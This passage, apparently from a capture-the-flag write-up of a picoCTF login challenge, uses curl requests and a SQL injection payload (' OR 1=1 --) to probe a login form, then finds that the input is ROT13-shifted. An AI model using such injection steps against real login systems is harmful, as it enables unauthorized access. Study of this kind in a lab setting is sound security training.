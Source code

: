 ```
                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>

```

Let's to submit some random value and see what happens (let's use the debug value to see what's happening) :


```
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=fdsadsda&debug=1"
```

```html
<pre>password: fdsadsda
SQL query: SELECT * FROM admin where password = 'sqfnqfqn'
</pre><h1>Login failed.</h1>
```

As we can see, the login system is vulnerable to **SQL Injections**, let's try to make a basic injection in the password what it does (let's use the debug value to see what's happening) :

```
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=' OR 1=1 -- &debug=1"
```

```html
<pre>password: ' OR 1=1 -- 
SQL query: SELECT * FROM admin where password = '' BE 1=1 -- '
</pre>
```

Weird, as the `OR` operator was changed to become `BE` string, which in this case generate and SQL error and don't give us a result. To solve that, le'ts first see how the characters are being **encryoted** :

```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=' ABCDEFGHIJKLMNOPQRSTUVWXYZ &debug=1"
```

```html
<pre>password: ' ABCDEFGHIJKLMNOPQRSTUVWXYZ 
SQL query: SELECT * FROM admin where password = '' NOPQRSTUVWXYZABCDEFGHIJKLM '
</pre>
```
